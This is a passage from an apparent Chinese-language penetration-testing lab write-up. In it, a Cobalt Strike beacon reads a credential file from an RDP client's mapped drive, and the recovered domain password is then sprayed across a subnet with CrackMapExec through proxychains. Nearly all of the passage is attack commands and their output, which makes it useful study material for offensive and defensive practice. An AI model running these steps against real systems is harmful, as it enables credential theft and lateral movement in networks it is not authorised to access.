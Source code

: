 ```
[+] host called home, sent: 47 bytes
[+] received output:
 驱动器 \\TSCLIENT\C 中的卷没有标签。
 卷的序列号是 C2C5-9D0C

 \\TSCLIENT\C 的目录

2022/07/12  10:34                71 credential.txt
2022/05/12  17:04    <DIR>          PerfLogs
2022/07/11  12:53    <DIR>          Program Files
2022/05/18  11:30    <DIR>          Program Files (x86)
2022/07/11  12:47    <DIR>          Users
2022/07/11  12:45    <DIR>          Windows
               1 个文件             71 字节
               5 个目录 30,138,187,776 可用字节

beacon> shell type \\TSCLIENT\C\credential.txt
[*] Tasked beacon to run: type \\TSCLIENT\C\credential.txt
[+] host called home, sent: 63 bytes
[+] received output:
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#

Do you know how to hijack Image?
```

收获了一个域用户凭据和提示：

| credential                           | hint                             |
| ------------------------------------ | -------------------------------- |
| xiaorang.lab\\Aldrich:Ald@rLMWuy7Z!# | Do you know how to hijack Image? |

该密码已经过期了：

```
PS E:\cme-windows-latest-3.10> proxychains4 -q python cme smb 172.22.8.18/24 -u "Aldrich" -p "Ald@rLMWuy7Z!#"
SMB         172.22.8.46     445    WIN2016          [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN2016) (domain:xiaorang.lab) (signing:False) (SMBv1:True)
SMB         172.22.8.18     445    WIN-WEB          [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN-WEB) (domain:WIN-WEB) (signing:False) (SMBv1:True)
SMB         172.22.8.31     445    WIN19-CLIENT     [*] Windows 10.0 Build 17763 x64 (name:WIN19-CLIENT) (domain:xiaorang.lab) (signing:False) (SMBv1:False)
SMB         172.22.8.15     445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:xiaorang.lab) (signing:True) (SMBv1:False)
SMB         172.22.8.46     445    WIN2016          [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z!# STATUS_PASSWORD_EXPIRED
SMB         172.22.8.18     445    WIN-WEB          [-] WIN-WEB\Aldrich:Ald@rLMWuy7Z!# STATUS_LOGON_FAILURE
SMB         172.22.8.31     445    WIN19-CLIENT     [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z!# STATUS_PASSWORD_EXPIRED
SMB         172.22.8.15     445    DC01             [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z!# STATUS_PASSWORD_EXPIRED

[*] completed: 100.00% (256/256)
```
